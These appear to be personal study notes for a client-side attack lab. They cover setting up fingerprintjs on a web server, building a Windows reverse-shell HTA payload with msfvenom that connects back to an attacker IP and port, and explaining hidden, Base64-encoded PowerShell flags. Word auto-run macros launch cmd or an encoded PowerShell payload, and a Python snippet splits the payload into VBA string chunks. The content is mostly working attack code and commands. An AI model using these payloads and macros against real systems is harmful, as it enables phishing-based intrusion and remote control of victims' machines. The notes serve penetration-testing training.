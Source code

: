 
sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip
sudo unzip master.zip
sudo mv fingerprintjs2-master/ fp

below version 2.1.4 worked

cd /var/www/html/ && sudo wget https://github.com/fingerprintjs/fingerprintjs/archive/2.1.4.zip && sudo unzip 2.1.4.zip && sudo mv fingerprintjs-2.1.4/ fp/ && cd fp

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.175 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

The first argument, -nop, is shorthand for -NoProfile,347 which instructs PowerShell not to load the PowerShell user profile.
When PowerShell is started, it will, by default, load any existing user’s profile scripts, which might negatively impact the execution of our code. This option will avoid that potential issue.
Next, our script uses -w hidden (shorthand for -WindowStyle348 hidden) to avoid creating a window on the user’s desktop.
Finally, the extremely important -e flag (shorthand for -EncodedCommand) allows us to supply a Base64 encoded349 PowerShell script directly as a command line argument.

##Macro
```
Sub AutoOpen() MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro() CreateObject("Wscript.Shell").Run "cmd"
End Sub
```
#### Python script

```
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'

```

```
Sub AutoOpen() MyMacro
End Sub
Sub Document_Open() MyMacro
End Sub
Sub MyMacro()
Dim Str As String
Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" 
Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A" 

CreateObject("Wscript.Shell").Run Str End Sub

```
view-> macro
insert-> object

```

START cmd.exe
START powershell.exe -nop -w hidden -e JAB....

```
